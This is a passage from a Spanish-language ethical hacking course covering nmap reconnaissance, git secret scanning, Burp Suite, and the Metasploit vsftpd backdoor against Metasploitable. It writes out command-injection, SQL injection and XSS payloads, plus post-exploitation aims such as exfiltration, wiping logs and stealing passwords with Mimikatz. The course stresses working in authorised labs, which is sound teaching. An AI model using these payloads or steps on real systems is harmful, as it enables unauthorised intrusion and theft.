¡Vulnerabilidad confirmada!

#### Fase 3: Reporte (como hacker ético)

Creamos un informe con:

- Descripción: Command Injection en parámetro IP
- Prueba: `127.0.0.1 && whoami`
- Impacto: permite ejecutar comandos arbitrarios
- Solución: sanitizar entradas de usuario

---

### 🧠 Conclusión

✅ **El hacking ético es necesario para proteger sistemas, datos y personas.**

✅ Puedes practicar legalmente y aprender con laboratorios gratuitos.

✅ Es una **carrera con alta demanda, buen salario y propósito ético.**

---

[🔼](#índice)

---

## **871. Conceptos. ¿qué es y qué no es pentesting?**

### 🧠 ¿Qué es el Pentesting?

#### 🔐 **Pentesting** = Penetration Testing = Pruebas de penetración

Es un proceso **ético y controlado** en el cual se simula un ataque real contra un sistema, aplicación o red, **con permiso**, para descubrir vulnerabilidades **antes de que lo hagan los atacantes reales**.

---

### ✅ ¿Qué SÍ es Pentesting?

| ✅ Es...                                     | Explicación fácil                                              |
| -------------------------------------------- | -------------------------------------------------------------- |
| 🔍 Una **evaluación de seguridad**           | Se analiza qué tan fácil sería vulnerar el sistema.            |
| 🧪 Una **simulación controlada de ataque**   | El pentester actúa como un hacker “bueno” (white hat).         |
| 📋 Basado en una **metodología profesional** | Usa pasos como reconocimiento, escaneo, explotación y reporte. |
| 📜 **Autorizado legalmente**                 | Siempre se necesita **permiso firmado** (alcance claro).       |
| 🛡️ Sirve para **fortalecer la seguridad**    | El objetivo es **ayudar**, no dañar.                           |

---

### ❌ ¿Qué NO es Pentesting?

| ❌ No es...                        | Por qué no lo es                                         |
| ---------------------------------- | -------------------------------------------------------- |
| 🚫 Hacking sin permiso             | Eso es **ilegal**, se considera intrusión o ciberdelito. |
| 🚫 Escaneo masivo sin autorización | Aun si no explotas nada, puede violar leyes.             |
| 🚫 Ransomware “por diversión”      | El pentesting **no daña**, **no secuestra información**. |
| 🚫 Ataques destructivos            | No debes borrar nada ni dejar sistemas fuera de línea.   |
| 🚫 Algo improvisado                | Debe seguir **una metodología profesional y ética**.     |

---

### 🧰 ¿Qué necesito para hacer pentesting?

#### Herramientas esenciales:

- **Kali Linux**: distribución de Linux con más de 600 herramientas preinstaladas.
- **Metasploit**: framework para explotación de vulnerabilidades.
- **Nmap**: escáner de redes y puertos.
- **Burp Suite**: proxy para pentesting web.
- **Nikto**, **Hydra**, **John the Ripper**, etc.

---

### ⚙️ ¿Cómo instalar un entorno de Pentesting?

#### 🔹 Opción recomendada: VirtualBox + Kali Linux + máquina vulnerable

##### Paso 1: Instalar VirtualBox

Descarga desde:
👉 [https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)

Instala como cualquier programa en Windows/macOS/Linux.

---

##### Paso 2: Instalar Kali Linux

1. Descarga la imagen ISO:
   👉 [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

2. Crea una nueva máquina virtual en VirtualBox:

   - Tipo: Linux
   - Versión: Debian (64-bit)
   - RAM: mínimo 2 GB
   - Disco: 20 GB mínimo

3. Inicia la VM y monta la ISO para instalar.

4. Sigue los pasos del asistente de instalación.

---

##### Paso 3: Instalar máquina vulnerable (ej: Metasploitable 2)

1. Descarga Metasploitable 2:
   👉 [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

2. Importe la VM en VirtualBox → “Archivo” → “Importar dispositivo virtual”.

3. Configura **Red Interna** en ambas máquinas para que se comuniquen localmente.

---

### 🔎 Ejemplo completo: Mini Pentest con Nmap + Metasploit

#### Escenario:

Tienes tu Kali Linux funcionando y una máquina Metasploitable 2 corriendo en red interna con IP `192.168.56.101`.

---

##### 🔍 1. Reconocimiento con Nmap

En Kali:

```bash
nmap -sV -A 192.168.56.101
```

Resultado (resumido):

```
22/tcp   open  ssh
21/tcp   open  ftp
23/tcp   open  telnet
80/tcp   open  http
...
```

---

##### 🔧 2. Explotación con Metasploit

Lanzamos el framework:

```bash
msfconsole
```

Buscamos un exploit para VSFTPD:

```bash
search vsftpd
```

Cargamos el módulo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```

💥 Si es vulnerable, abrirá una **shell remota**:

```bash
[*] Command shell session 1 opened
```

Ya estás **dentro del sistema vulnerable** (solo en entorno de laboratorio legal).

---

##### 📋 3. Reporte (como hacker ético)

Documento sencillo:

- **Nombre**: vsftpd 2.3.4 vulnerable a backdoor
- **Puerto**: 21/tcp
- **Impacto**: ejecución remota de comandos
- **Recomendación**: actualizar o deshabilitar vsftpd, bloquear puerto si no se usa

---

### ✅ Conclusión

- El **pentesting NO es hacking ilegal**, sino una actividad profesional y ética.
- Se realiza **bajo contrato, con permiso**, y con el fin de **ayudar a las organizaciones a mejorar su seguridad**.
- Puedes empezar en casa usando **Kali Linux y máquinas virtuales vulnerables**.
- Aprender paso a paso te prepara para ser un futuro **hacker ético profesional** 🧑‍💻🛡️

---

[🔼](#índice)

---

## **872. Tipos de pentesting. Fase Pre-ataque**

### 🧠 ¿Qué es el Pentesting?

El **pentesting** o **penetration testing** es una simulación de ataque a sistemas informáticos, redes o aplicaciones web con el objetivo de encontrar vulnerabilidades **antes de que lo hagan los hackers maliciosos**.

---

### 🧩 TIPOS DE PENTESTING

Hay varias formas de clasificar un pentest. Aquí te muestro las más importantes:

---

#### ✅ 1. Según el nivel de conocimiento del sistema

| Tipo          | Descripción                                                          | Ejemplo fácil                                             |
| ------------- | -------------------------------------------------------------------- | --------------------------------------------------------- |
| **Black Box** | No sabes nada del sistema. Eres como un hacker externo.              | Atacar una web solo con su dominio.                       |
| **Gray Box**  | Sabes información parcial. Como si fueras un usuario medio.          | Tienes una cuenta normal en el sistema.                   |
| **White Box** | Sabes todo: código, infraestructura, IPs. Es una auditoría profunda. | El cliente te da acceso al código fuente y base de datos. |

---

#### ✅ 2. Según el objetivo

| Tipo                       | Explicación                                          | Herramientas comunes               |
| -------------------------- | ---------------------------------------------------- | ---------------------------------- |
| **Pentesting Web**         | Buscas fallos en apps web.                           | Burp Suite, OWASP ZAP, Nikto       |
| **Pentesting de red**      | Buscas puertos abiertos y servicios vulnerables.     | Nmap, Metasploit, Hydra            |
| **Pentesting de sistemas** | Atacas directamente a sistemas operativos.           | Exploits locales, buffer overflows |
| **Pentesting WiFi**        | Buscas vulnerabilidades en redes inalámbricas.       | Aircrack-ng, Wireshark             |
| **Pentesting físico**      | Intentas acceder físicamente a servidores, oficinas. | Técnicas sociales o acceso físico  |

---

### 🧭 FASES DEL PENTESTING: Enfoque general

1. **Pre-ataque (Reconocimiento y escaneo)** ← Nos enfocamos aquí.
2. **Ataque / Explotación**
3. **Post-explotación / Mantenimiento**
4. **Reporte final**

---

### 🔍 FASE PRE-ATAQUE: ¿Qué es y cómo se hace?

Es la **fase de recolección de información**, como cuando un ladrón observa la casa antes de entrar. Aquí **no atacas todavía**, solo analizas el terreno.

#### 🔹 Subfases:

| Subfase                  | ¿Qué haces?                                         | Herramientas                 |
| ------------------------ | --------------------------------------------------- | ---------------------------- |
| 🔎 Reconocimiento pasivo | Buscas info sin tocar el sistema objetivo.          | Google, whois, Shodan        |
| 📡 Reconocimiento activo | Escaneas directamente el objetivo.                  | Nmap, Netcat                 |
| 🧱 Enumeración           | Descubres usuarios, servicios, sistemas operativos. | Enum4linux, SMBclient, Nikto |

---

### 📌 Ejemplo real:

**Objetivo**: Hacer la fase pre-ataque a `http://testphp.vulnweb.com`

---

### ⚙️ INSTALACIÓN DEL ENTORNO DE PENTESTING

Vamos a usar:

- ✅ **Kali Linux** (ya viene con todo instalado)
- ✅ **VirtualBox** o **máquina física**
- ✅ Un objetivo vulnerable (por ejemplo, la web de prueba de Acunetix)

#### 🔸 Opción 1: Usar Kali Linux en VirtualBox

1. Descarga Kali desde: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
2. Importa la VM en VirtualBox
3. Actualiza el sistema:

```bash
sudo apt update && sudo apt upgrade -y
```

---

### 🧪 EJEMPLO COMPLETO DE FASE PRE-ATAQUE

#### 🕵️‍♂️ Objetivo: `http://testphp.vulnweb.com`

---

#### 1. RECONOCIMIENTO PASIVO

##### 🔹 Usamos `whois`:

```bash
whois testphp.vulnweb.com
```

> Muestra el dueño del dominio, país, correo del registrante.

---

##### 🔹 Buscamos con Google Hacking:

```text
site:testphp.vulnweb.com inurl:admin
```

> Esto busca páginas relacionadas a “admin” dentro de esa web.

---

#### 2. RECONOCIMIENTO ACTIVO

##### 🔹 Escaneo con `nmap`

```bash
nmap -sS -sV -O testphp.vulnweb.com
```

Parámetros:

- `-sS`: escaneo sigiloso (SYN scan)
- `-sV`: detecta versión de servicios
- `-O`: detecta sistema operativo

Resultado esperado:

```text
80/tcp open  http Apache httpd 2.4.18
OS: Linux
```

---

#### 3. ENUMERACIÓN

##### 🔹 Usamos `nikto`:

```bash
nikto -h http://testphp.vulnweb.com
```

Nikto te dirá:

- Versiones desactualizadas
- Archivos ocultos
- Formularios inseguros

---

### 📋 Resultado final

Ya tienes:

- Información del sistema operativo
- Servicios corriendo (HTTP en puerto 80)
- Rutas inseguras (como `/admin`, `/login`, etc.)
- Posibles vectores para atacar en la siguiente fase

---

### ✅ CONCLUSIÓN

- El **pre-ataque** es la base de cualquier pentest serio.
- Nunca atacas sin conocer primero el objetivo.
- Herramientas clave: `nmap`, `whois`, `nikto`, Google Hacking
- Ya estás en camino para convertirte en **hacker ético profesional** 🧑‍💻

---

[🔼](#índice)

---

## **873. Práctica: Buscando secretos en repositorios GIT**

### 🧠 ¿Qué significa buscar “secretos” en Git?

En seguridad informática, **“secretos”** se refiere a **contraseñas, tokens de API, claves privadas, etc.** que los desarrolladores a veces suben sin querer a sus repositorios Git (como GitHub o GitLab).

Ejemplos de secretos comunes:

- 🔑 Claves de AWS (`AKIA...`)
- 🔐 Tokens de GitHub o Discord
- 🔏 Archivos `.env` con credenciales
- 🔓 Contraseñas en texto plano en archivos de configuración

Un atacante puede buscar esos secretos para:

- Acceder a servidores, cuentas de servicios cloud
- Robar datos o causar daños

---

### 🧰 Herramientas que usaremos

Vamos a instalar y usar:

| Herramienta                                                      | ¿Para qué sirve?                                      |
| ---------------------------------------------------------------- | ----------------------------------------------------- |
| 🔍 `git clone`                                                   | Clonar un repositorio vulnerable                      |
| 🔎 [`git log`](https://git-scm.com/docs/git-log)                 | Ver historial de commits                              |
| ⏮️ `git checkout`                                                | Volver a versiones anteriores                         |
| 🛠️ [`truffleHog`](https://github.com/trufflesecurity/trufflehog) | Herramienta automática para buscar secretos           |
| 📁 [`gitleaks`](https://github.com/gitleaks/gitleaks)            | Otra herramienta muy potente para análisis automático |

---

### 🖥️ Instalación (en Kali Linux u otro Linux)

#### ✅ Requisitos previos:

```bash
sudo apt update
sudo apt install git python3-pip -y
```

---

#### 🔹 Instalar `truffleHog`:

```bash
pip install truffleHog
```

> Esto instala la herramienta para buscar secretos en el historial Git.

---

#### 🔹 Instalar `gitleaks` (opcional):

```bash
wget https://github.com/gitleaks/gitleaks/releases/latest/download/gitleaks-linux-amd64 -O gitleaks
chmod +x gitleaks
sudo mv gitleaks /usr/local/bin
```

---

### 🧪 EJEMPLO COMPLETO PASO A PASO

Vamos a analizar un repositorio real (de ejemplo) y buscar secretos.

#### 🧷 Repositorio vulnerable de ejemplo:

```bash
git clone https://github.com/gwen001/pentest-tools.git
cd pentest-tools
```

---

##### 🔎 Paso 1: Revisar manualmente con comandos Git

```bash
git log --oneline
```

> Muestra el historial de commits.

Busca mensajes sospechosos como:

- “add config file”
- “fix token issue”
- “update .env”

---

##### ⏮️ Paso 2: Volver a un commit específico (si quieres)

```bash
git checkout <commit-id>
```

Luego puedes inspeccionar con:

```bash
cat config.py
cat .env
```

---

##### ⚙️ Paso 3: Usar `truffleHog` para buscar secretos automáticamente

```bash
trufflehog git https://github.com/gwen001/pentest-tools.git
```

TruffleHog escaneará todo el historial y te dirá si encontró:

✅ Tokens

✅ Contraseñas

✅ AWS Keys

✅ Archivos `.env`

✅ Información sensible

---

#### 🧪 Otro ejemplo con `gitleaks`

```bash
gitleaks detect --source=. --report-path=gitleaks-report.json
```

Te generará un reporte JSON con las posibles filtraciones de secretos.

---

### 📌 ¿Qué aprendiste?

- Puedes buscar secretos manualmente revisando el historial de commits.
- Herramientas como **truffleHog** y **gitleaks** lo hacen automáticamente.
- Repositorios mal gestionados pueden contener credenciales expuestas.
- Muchos pentesters y bug hunters usan esto para encontrar vulnerabilidades de configuración.

---

### 🛡️ ¿Cómo se previene?

✅ Nunca subas archivos `.env`, `.pem`, `.key`, etc.

✅ Usa `.gitignore` correctamente.

✅ Usa herramientas de escaneo antes de hacer `git push`.

✅ Revoca cualquier clave filtrada inmediatamente.

---

[🔼](#índice)

---

## **874. Introducción al escaneo de redes**

### 🧠 ¿Qué es el escaneo de redes?

El **escaneo de redes** es una técnica utilizada para **identificar dispositivos (hosts), puertos abiertos, servicios y sistemas operativos** en una red. Es **una de las fases más importantes del hacking ético y el pentesting**, y forma parte de la **fase de reconocimiento activo**.

#### 📍 Objetivos:

- Saber **quién está en la red**
- Saber **qué servicios están corriendo**
- Identificar **vulnerabilidades potenciales**
- Descubrir **puntos de entrada para un ataque controlado**

---

### 🧩 Tipos de escaneo

| Tipo de escaneo     | ¿Qué hace?                                 | Herramienta común     |
| ------------------- | ------------------------------------------ | --------------------- |
| 🧭 Ping Scan        | Verifica qué hosts están activos           | `nmap -sn`            |
| 🔎 Port Scan        | Busca puertos abiertos                     | `nmap -p`             |
| 🧱 Service Scan     | Detecta servicios y versiones              | `nmap -sV`            |
| 🖥️ OS Detection     | Intenta detectar el sistema operativo      | `nmap -O`             |
| 📍 Topología de red | Descubre cómo se conectan los dispositivos | `nmap`, `netdiscover` |

---

### 🛠️ Herramientas para escaneo de redes

Las más comunes (todas se pueden usar en **Kali Linux** o Ubuntu):

| Herramienta          | Para qué sirve                                         |
| -------------------- | ------------------------------------------------------ |
| **Nmap**             | La más conocida. Escanea puertos, hosts, versiones, OS |
| **Netdiscover**      | Detecta dispositivos en redes LAN                      |
| **Angry IP Scanner** | GUI para Windows/Linux fácil de usar                   |
| **Zenmap**           | Interfaz gráfica de Nmap                               |
| **Masscan**          | Escaneo rápido a gran escala                           |

---

### ⚙️ Instalación de herramientas (si no estás en Kali)

#### ✅ Instalar Nmap:

```bash
sudo apt update
sudo apt install nmap -y
```

#### ✅ Instalar Netdiscover:

```bash
sudo apt install netdiscover -y
```

---

### 🧪 EJEMPLO COMPLETO: Escaneo paso a paso

Vamos a usar **Nmap y Netdiscover** para hacer un escaneo en una red local (por ejemplo, una red WiFi a la que estás conectado desde Kali o cualquier distro Linux).

---

#### 🛜 1. Obtener tu IP local y tu rango de red

Primero necesitas saber tu IP:

```bash
ip a
```

Ejemplo:

```text
inet 192.168.1.15/24
```

Tu red sería `192.168.1.0/24`

---

#### 🔍 2. Escanear la red para ver qué dispositivos están activos (Ping scan)

```bash
nmap -sn 192.168.1.0/24
```

Resultado:

```text
Host 192.168.1.1 is up (router)
Host 192.168.1.10 is up (laptop)
Host 192.168.1.20 is up (Smart TV)
```

---

#### 🔎 3. Escaneo de puertos abiertos en un host

Escanea un dispositivo específico (por ejemplo, tu router):

```bash
nmap -p 1-1000 192.168.1.1
```

Resultado:

```text
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  closed https
```

---

#### 📦 4. Detectar servicios y versión del software

```bash
nmap -sV 192.168.1.1
```

Resultado:

```text
80/tcp open http    lighttpd 1.4.35
22/tcp open ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
```

---

#### 🖥️ 5. Detectar el sistema operativo del host

```bash
nmap -O 192.168.1.1
```

Resultado:

```text
OS: Linux 3.X | 4.X
```

> Esto es útil para planear posibles exploits.

---

#### 📡 6. Escanear toda la red con Netdiscover

```bash
sudo netdiscover
```

Te muestra una tabla como esta:

```
IP              MAC Address        Vendor
192.168.1.1     00:14:22:01:23:45  TP-Link
192.168.1.15    44:87:FC:AB:12:34  Dell
192.168.1.22    58:55:CA:BB:66:77  Samsung
```

---

### 🔐 ¿Qué aprendiste con esto?

✅ Cómo identificar los dispositivos activos

✅ Cómo saber qué puertos tienen abiertos

✅ Cómo detectar servicios y sistemas operativos

✅ Cómo visualizar la topología de tu red

✅ Cómo usar herramientas básicas como Nmap y Netdiscover

---

[🔼](#índice)

---

## **875. Práctica: Escaneo de redes con Nmap**

### 🧠 ¿Qué es Nmap?

**Nmap (Network Mapper)** es una herramienta de código abierto utilizada por administradores de red, hackers éticos y pentesters para:

✅ Escanear redes

✅ Detectar hosts activos

✅ Identificar puertos abiertos

✅ Reconocer servicios (como SSH, HTTP, FTP)

✅ Saber qué sistema operativo usa un dispositivo

> Es una de las herramientas más usadas en **reconocimiento activo**.

---

### 📦 ¿Cómo se instala Nmap?

#### 🔹 En **Kali Linux** ya viene instalado.

Pero si usas otra distro (Ubuntu, Debian), puedes instalarlo así:

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En **Windows**

1. Ir a la página oficial: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Descargar el **“Nmap Windows Installer”**
3. Instalar normalmente como cualquier programa
4. Se incluye la interfaz gráfica llamada **Zenmap**

---

### ✅ Comandos básicos de Nmap

| Comando                     | ¿Qué hace?                                                  |
| --------------------------- | ----------------------------------------------------------- |
| `nmap -sn 192.168.1.0/24`   | Escaneo de red para descubrir hosts activos                 |
| `nmap -p 22,80 192.168.1.1` | Escanea puertos específicos                                 |
| `nmap -p- 192.168.1.1`      | Escanea **todos** los puertos                               |
| `nmap -sV 192.168.1.1`      | Detecta versiones de servicios                              |
| `nmap -O 192.168.1.1`       | Detecta el sistema operativo                                |
| `nmap -A 192.168.1.1`       | Escaneo agresivo (todo junto: OS, versión, traceroute, etc) |

---

### ⚠️ Importante

No debes escanear redes sin autorización. Estas prácticas deben realizarse en:

✅ Tu propia red

✅ Máquinas virtuales controladas

✅ Laboratorios tipo Hack The Box, TryHackMe o redes locales

---

### 🧪 PRÁCTICA COMPLETA: Escaneo con Nmap paso a paso

Supongamos que estás en tu casa conectado al Wi-Fi y quieres ver qué dispositivos hay conectados y qué servicios ofrecen.

---

#### 📍 Paso 1: Ver tu IP y tu red

```bash
ip a
```

Ejemplo:

```
inet 192.168.1.15/24
```

Entonces tu red es: `192.168.1.0/24`

---

#### 🔍 Paso 2: Escanear la red para ver los dispositivos conectados

```bash
nmap -sn 192.168.1.0/24
```

Esto te da una lista de dispositivos que están activos (responden al ping):

```
Nmap scan report for 192.168.1.1
Host is up (0.0031s latency).
MAC Address: A4:5E:60:12:34:56 (Tp-Link)

Nmap scan report for 192.168.1.15
Host is up (0.0002s latency).
MAC Address: D4:BE:D9:87:65:43 (Dell)

Nmap scan report for 192.168.1.22
Host is up (0.0021s latency).
MAC Address: 58:55:CA:33:44:55 (Samsung)
```

---

#### 🔎 Paso 3: Escanear puertos abiertos en un host

Por ejemplo, tu router está en `192.168.1.1`:

```bash
nmap -p 1-1000 192.168.1.1
```

Resultado:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  closed https
```

---

#### 🔬 Paso 4: Detectar versión de servicios

```bash
nmap -sV 192.168.1.1
```

Resultado:

```
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open http Apache httpd 2.4.29
```

---

#### 🧠 Paso 5: Detectar sistema operativo

```bash
sudo nmap -O 192.168.1.1
```

Resultado:

```
OS: Linux 2.6.32 - 4.9
```

---

#### 🧨 Paso 6 (opcional): Escaneo agresivo

```bash
sudo nmap -A 192.168.1.1
```

Incluye detección de OS, versión, traceroute y más.

---

### ✅ Resultado Final (Resumen de tu práctica)

- Descubriste qué dispositivos están conectados a tu red
- Escaneaste los puertos abiertos del router o un host
- Detectaste qué servicios corren (como HTTP, SSH)
- Supiste qué sistema operativo está usando ese host

---

### 🧠 Consejos para mejorar

- Prueba esto en una red virtual con Kali + otra máquina (como Metasploitable)
- Usa `-T4` o `-T5` para acelerar escaneos
- Guarda resultados: `nmap -oN resultado.txt 192.168.1.1`

---

[🔼](#índice)

---

## **876. Fase de Ataque. Testing de aplicaciones web con Burp suite**

### 🧠 ¿Qué es Burp Suite?

**Burp Suite** es una herramienta profesional y gratuita (versión Community) para realizar **tests de seguridad en aplicaciones web**. Es uno de los programas más usados por hackers éticos, bug bounty hunters y pentesters.

Permite:

✅ Interceptar peticiones HTTP/HTTPS

✅ Manipular formularios, cookies y parámetros

✅ Buscar vulnerabilidades (XSS, SQLi, CSRF, etc.)

✅ Automatizar escaneos de seguridad

✅ Realizar ataques dirigidos con módulos como **Intruder**

---

### 🔐 ¿En qué fase del hacking entra Burp Suite?

Burp se usa en la **fase de ataque**, después de hacer reconocimiento. Cuando ya sabes qué sitio atacar, puedes usar Burp para **interactuar directamente con la web**, manipular formularios, enviar payloads, etc.

---

### 🛠️ ¿Cómo se instala Burp Suite?

#### ✅ En Kali Linux viene preinstalado

Abre el menú > Web Application Analysis > **Burp Suite Community Edition**

O desde terminal:

```bash
burpsuite
```

---

#### ✅ En Windows o Linux manualmente

1. Ve a: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)
2. Elige la versión para tu sistema operativo
3. Instálalo como cualquier otro programa

---

### 🧰 Requisitos para usar Burp correctamente

Para interceptar el tráfico de una aplicación web (por ejemplo, desde el navegador), necesitas:

1. **Configurar el proxy de tu navegador** (normalmente a `127.0.0.1:8080`)
2. **Instalar el certificado de Burp Suite** en tu navegador (para HTTPS)
3. **Tener una web objetivo** (puede ser vulnerable como DVWA, Juice Shop, etc.)

---

### 🧪 EJEMPLO COMPLETO DE USO DE BURP SUITE

#### 🎯 Objetivo:

Vamos a interceptar y modificar el tráfico entre el navegador y un sitio web vulnerable llamado **DVWA** (Damn Vulnerable Web Application)

---

#### 🔧 Paso 1: Instalar DVWA (opcional si ya tienes)

Usa XAMPP, Docker o Mutillidae. Supongamos que ya tienes DVWA en `http://localhost/dvwa`

---

#### 🚀 Paso 2: Iniciar Burp Suite

En Kali:

```bash
burpsuite
```

Selecciona **Community Edition**, crea un nuevo proyecto y dale "Start Burp".

---

#### 🌐 Paso 3: Configurar el proxy en Firefox o Chrome

- Abre tu navegador
- Ve a configuración de red
- Configura proxy manual:

  - **IP:** 127.0.0.1
  - **Puerto:** 8080

---

#### 🔏 Paso 4: Instalar el certificado de Burp

1. En el navegador, ve a: `http://burp`
2. Haz clic en "CA Certificate"
3. Descárgalo y agrégalo como certificado de confianza

---

#### 🔍 Paso 5: Activar “Intercept” y visitar DVWA

- En Burp: ve a la pestaña **Proxy > Intercept**
- Activa “Intercept is on”
- Ve en el navegador a `http://localhost/dvwa/login.php`

👉 Burp te mostrará la petición HTTP **interceptada**. Puedes:

- Ver el método (`POST`)
- Ver los parámetros enviados: `username=admin&password=123`
- Editar los valores antes de que lleguen al servidor

---

#### 🛠️ Paso 6: Usar otras herramientas de Burp

##### 🔹 Repeater:

- Manda la petición interceptada a **Repeater**
- Modifica parámetros y ve cómo responde el servidor
- Útil para probar manualmente inyecciones: `admin' OR 1=1--`

##### 🔹 Intruder:

- Para realizar ataques automáticos de fuerza bruta o fuzzing
- Ejemplo: probar múltiples contraseñas contra un login

##### 🔹 Decoder:

- Codifica/decodifica datos en base64, URL encoding, etc.

##### 🔹 Scanner (Solo versión PRO):

- Realiza un escaneo automático de vulnerabilidades

---

### 🧪 EJEMPLO PRÁCTICO: Inyección simple de SQL

1. Captura el login en Burp Proxy
2. Manda la petición a Repeater
3. Cambia los valores:

```bash
username=admin' OR 1=1--&password=123
```

4. Haz clic en “Send” y observa la respuesta

👉 Si el sitio no está protegido, entrará sin necesidad de contraseña.

---

### 🛡️ ¿Qué se puede probar con Burp Suite?

| Vulnerabilidad | ¿Cómo?                                 |
| -------------- | -------------------------------------- |
| XSS            | Inyectando `<script>alert(1)</script>` |
| SQLi           | Inyectando `' OR 1=1--`                |
| CSRF           | Observando formularios sin tokens      |
| IDOR           | Cambiando IDs de usuarios en URLs      |
| File Upload    | Subiendo archivos maliciosos           |

---

### ✅ Conclusiones

🔹 **Burp Suite** es una navaja suiza para el pentester web
🔹 Su punto fuerte es **interceptar y modificar tráfico HTTP**
🔹 Puedes usarlo para encontrar vulnerabilidades manualmente
🔹 Es compatible con otras herramientas como OWASP ZAP

---

[🔼](#índice)

---

## **877. Práctica: Explotando vulnerabilidades en metasploitable**

### 🧠 ¿Qué es Metasploitable?

**Metasploitable** es una máquina virtual _intencionalmente vulnerable_, creada para practicar **hacking ético** y **pentesting**. Fue desarrollada por Rapid7 (creadores de Metasploit).

> Es como una "piñata de fallas de seguridad" para que puedas aprender sin hacer daño.

---

### ⚙️ ¿Qué necesitas para esta práctica?

- 🐱 **Kali Linux** (herramienta de ataque)
- 💣 **Metasploitable 2 o 3** (objetivo vulnerable)
- 🔌 **VirtualBox o VMware** (para correr ambas VMs)
- 🌐 Ambas VMs deben estar en la **misma red** (modo "Red interna" o "Adaptador puente")

---

### 🛠️ INSTALACIÓN DE METASPLOITABLE 2 (más simple)

#### ✅ 1. Descarga Metasploitable 2

🔗 [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

1. Descarga el archivo `.zip`
2. Extrae el contenido
3. Abre el `.vmdk` con **VirtualBox** o **VMware**

---

#### ⚙️ 2. Configura la red en ambas máquinas

En VirtualBox (para Kali y Metasploitable):

> **Configuración > Red > Adaptador 1 > Modo:** `Red interna` (o `Adaptador puente`)

Esto asegura que puedan verse entre ellas por IP.

---

#### 🌐 3. Obtén las IPs

En **Kali**:

```bash
ip a
```

En **Metasploitable**:

```bash
ifconfig
```

Ejemplo:

- Kali: `192.168.56.101`
- Metasploitable: `192.168.56.102`

---

#### 🔎 FASE 1: Escaneo con Nmap

Desde Kali, descubre servicios abiertos en Metasploitable:

```bash
nmap -sS -sV -O 192.168.56.102
```

Esto te dirá:

- Qué puertos están abiertos
- Qué servicios corren (FTP, SSH, Apache, MySQL, etc.)
- Qué versión de SO está usando

Ejemplo de salida:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
```

---

#### ⚔️ FASE 2: Ataque con Metasploit

##### Paso 1: Inicia Metasploit

```bash
msfconsole
```

---

##### Paso 2: Buscar exploit para `vsftpd 2.3.4` (FTP con backdoor)

```bash
search vsftpd
```

Verás algo como:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

##### Paso 3: Selecciona y configura el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
run
```

---

#### 🔥 Resultado esperado:

```bash
[*] Backdoor service has been spawned, handling...
[*] Command shell session 1 opened
```

¡Has conseguido una **shell remota** en la máquina víctima! 😎

---

### ✅ Qué puedes hacer ahora

Dentro de la shell puedes ejecutar comandos como:

```bash
whoami
uname -a
ls /home
```

---

### 🧪 OTROS SERVICIOS QUE PUEDES EXPLOTAR

| Servicio               | Vulnerabilidad       | Exploit                              |
| ---------------------- | -------------------- | ------------------------------------ |
| Telnet (`port 23`)     | Sesión sin login     | Manual                               |
| Samba (`port 139/445`) | Samba usermap script | `exploit/multi/samba/usermap_script` |
| Apache (`port 80`)     | WebDAV, PHP, etc.    | Múltiples                            |
| MySQL (`port 3306`)    | Default credentials  | Manual / Hydra                       |

---

### 🧼 ¿Cómo protegerse?

Metasploitable NO DEBE estar en una red real. Pero en sistemas reales, estas son buenas prácticas:

✅ Actualiza servicios desactualizados (como vsftpd 2.3.4)

✅ Desactiva puertos innecesarios

✅ Usa firewalls y autenticación fuerte

✅ Haz escaneos periódicos con Nmap o Nessus

---

### 🧠 CONCLUSIONES

🔹 Metasploitable es ideal para aprender explotación real

🔹 Se combina perfectamente con Kali y Metasploit

🔹 No necesitas dañar ningún servidor para practicar

🔹 ¡La mejor forma de aprender es **romper cosas en laboratorio**!

---

[🔼](#índice)

---

## **878. Fase Post-ataque. Metodologías**

### 🧠 ¿Qué es la Fase Post-Ataque?

Es la etapa que **ocurre después de haber explotado una vulnerabilidad** y obtener acceso a una máquina o red. En esta fase no se trata solo de entrar, sino de:

#### 🎯 Objetivos clave:

- Mantener el acceso (persistencia)
- Escalar privilegios
- Movilidad lateral (acceder a otras máquinas)
- Exfiltrar información
- Cubrir huellas (limpiar logs)
- Documentar todo

> 🎓 Esta fase se parece más al trabajo de un espía digital que al de un hacker tradicional. No se rompe todo: **se analiza, se documenta y se asegura la permanencia para investigar más**.

---

### 🧰 Herramientas más usadas en post-explotación

| Herramienta   | ¿Para qué sirve?                              |
| ------------- | --------------------------------------------- |
| `Meterpreter` | Shell avanzada post-exploit de Metasploit     |
| `Mimikatz`    | Robar contraseñas y hashes en Windows         |
| `Empire`      | Framework de post-exploitation en PowerShell  |
| `BloodHound`  | Analizar Active Directory                     |
| `Netcat`      | Crear backdoors y tunelización                |
| `SSH/Plink`   | Mantener conexión con la máquina comprometida |

---

### 🔧 ¿Cómo se instala el entorno?

Ya que estamos en la **fase post**, asumimos que ya tienes:

1. ✅ Una máquina atacante (Kali Linux)
2. ✅ Una máquina víctima (Metasploitable o Windows vulnerable)
3. ✅ Acceso a la víctima (por ejemplo, mediante Metasploit)

---

### 🔌 CONFIGURACIÓN BÁSICA DE PRUEBA

#### Paso 1: Iniciar Metasploit

```bash
msfconsole
```

#### Paso 2: Usar un exploit para conseguir acceso (como vsftpd)

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
run
```

🎯 Una vez adentro, cambiarás a **Meterpreter**, una shell con muchas herramientas post-exploit.

---

